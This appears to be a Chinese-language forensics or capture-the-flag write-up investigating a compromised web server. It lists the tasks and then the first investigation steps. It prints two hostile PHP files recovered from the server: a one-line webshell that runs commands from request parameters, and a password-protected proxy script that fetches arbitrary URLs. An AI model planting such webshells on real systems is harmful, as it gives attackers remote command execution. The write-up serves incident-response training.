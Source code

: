 # Task1
## Web Server
### 任务
- 查找并提交用于攻击的命令和参数
- 提交黑客第一次执行攻击命令的时间
- 找到并提交在webserver中被感染的文件名
- 找到并提交被用于攻击的webshell代码
- 找到并提交被黑客创建的webshll文件名
- 找到并提交攻击使用的url
- 找到并提交黑客登录服务器所使用的用户名和密码及登录的http地址
### 调查过程
`history`查找命令历史cd ..
在历史命令中发现奇怪的文件
==2cc4be6b84b5c5785fd3efbf5fdda98920a4204a.php==
==4dcc4173d80a2817206e196a38f0dbf7850188ff.php== 
```php
<?php @system($_REQUEST['c']) ?>
```
==d799bae6088a90139b415fccb011d540531df83b.php== 
```php
<?php
$username = @$_GET['u'];
$password = @$_GET['p'];
$target = @$_GET['t'];
if ($username !== 'hacker' || $password !== 'wuhu') {
  return false;
}
if (!empty($target)) {
  $ch = curl_init($target);
  curl_setopt($ch, CURLOPT_HEADER, FALSE);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, TRUE);
  curl_setopt($ch, CURLOPT_FOLLOWLOCATION, TRUE);
  curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
  curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
  $res = curl_exec($ch);
  $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
  echo $res;
  echo "<br />".$httpCode;
}else{
  echo 'Bad target.';
}
?>


```
`ss -altp`
为nginx服务
![](attachment/Pasted%20image%2020230220180856.png)
